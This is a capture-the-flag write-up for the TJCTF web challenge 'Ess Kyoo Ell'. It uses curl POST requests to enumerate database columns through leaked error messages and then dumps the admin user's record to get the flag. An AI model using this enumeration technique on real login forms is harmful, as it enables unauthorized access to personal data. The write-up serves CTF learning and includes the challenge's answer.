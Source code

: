 # Ess Kyoo Ell
Web - 40 points

## Challenge 

Written by okulkarni

Find the IP address of the admin user! (flag is tjctf{[ip]})

[Ess Kyoo Ell](https://ess-kyoo-ell.tjctf.org/)

## Solution

Upon login, it will show this error

	This is what I got about you from the database: no such column: password

Because there is javascript validation, let's move to command-line

```bash
~ $ curl --silent --data "email=abc&password=def" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"

            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: no such column: password</p>

~ $ curl --silent --data "email=abc" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"

            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: &#39;NoneType&#39; object is not iterable</p>
```

As you can see, `password` is not a valid column. Trying some others, I found out that there is a `username` column.

```bash
~ $ curl --silent --data "email" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"
            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: &#39;NoneType&#39; object is not iterable</p>

~ $ curl --silent --data "email2" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"
            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: no such column: email2</p>

~ $ curl --silent --data "username" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"
            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: &#39;NoneType&#39; object is not iterable</p>
```

Now, find admin as the username

```bash
~ $ curl --silent --data "username=admin" https://ess-kyoo-ell.tjctf.org/ | grep class=\"profile-name-card\"
            <p id="profile-name" class="profile-name-card">This is what I got about you from the database: {&#39;id&#39;: 706, &#39;username&#39;: &#39;admin&#39;, &#39;first_name&#39;: &#39;Administrative&#39;, &#39;last_name&#39;: &#39;User&#39;, &#39;email&#39;: &#39;<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="412524276c2f2e356c3529726c20252c702f01352b2235276f2e3326">[email&#160;protected]</a>&#39;, &#39;gender&#39;: &#39;Female&#39;, &#39;ip_address&#39;: &#39;145.3.1.213&#39;}</p>
```

HTML decode

	This is what I got about you from the database: {'id': 706, 'username': 'admin', 'first_name': 'Administrative', 'last_name': 'User', 'email': '[email protected]', 'gender': 'Female', 'ip_address': '145.3.1.213'}

## Flag

	tjctf{145.3.1.213}